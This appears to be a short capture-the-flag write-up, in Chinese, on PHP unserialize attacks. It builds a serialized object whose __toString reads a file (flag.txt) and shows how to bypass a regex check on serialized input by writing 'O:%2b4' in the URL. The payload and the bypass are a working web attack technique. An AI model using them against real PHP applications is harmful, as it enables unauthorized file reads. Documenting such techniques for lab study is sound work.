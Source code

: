 # Unserialize

## 序列化

```php
class what {
    public $filename;
    var $text;
    function __toString() {
        return @file_get_contents($this->filename);
    }
}
$a = new what();
$a->filename = "flag.txt";
$a->text = "??!!@@$$5%%???";
$param = serialize($a);
echo $param;
```

O:4:"what":2:{s:8:"filename";s:8:"flag.txt";s:4:"text";s:14:"??!!@@$$5%%???";}

## 正则

```php
!(bool)preg_match("/^O:[0-9]+:/s", $param);
```

O:+4:...绕过

由于在url中+会被识别为空格，故需用+的url编码%2b替换，即O:%2b4:...

原理： http://www.phpbug.cn/archives/32.html